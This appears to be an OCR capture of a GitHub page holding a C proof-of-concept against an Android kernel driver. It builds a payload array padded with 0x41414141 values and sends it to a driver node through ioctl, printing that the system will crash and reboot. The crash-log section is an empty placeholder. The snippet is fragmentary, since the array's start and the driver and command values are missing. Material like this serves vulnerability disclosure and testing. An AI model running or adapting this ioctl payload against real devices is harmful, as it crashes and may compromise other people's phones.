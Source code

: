 ```
0xa9030f02,

0x00000001,

0x002cffff,

0x9e00cdff,

0x00000004,

0x41414141,

0x41414141,

0x41414141,

0x41414141 };

```
 int fd = 0;
    fd = open(driver, O_RDWR);
    if (fd &lt; 0) {
        printf("Failed to open %s, with errno %d\n", driver, errno);
        system("echo 1 &gt; /data/local/tmp/log");
        return -1;
    }

    printf("Try open %s with command 0x%x.\n", driver, command);
    printf("System will crash and reboot.\n");
    if(ioctl(fd, command, &amp;payload) &lt; 0) {
        printf("Allocation of structs failed, %d\n", errno);
        system("echo 2 &gt; /data/local/tmp/log");
        return -1;
    }
    close(fd);
    return 0; 
``` `}` 
```

### 崩溃日志

```
To be added here. 
```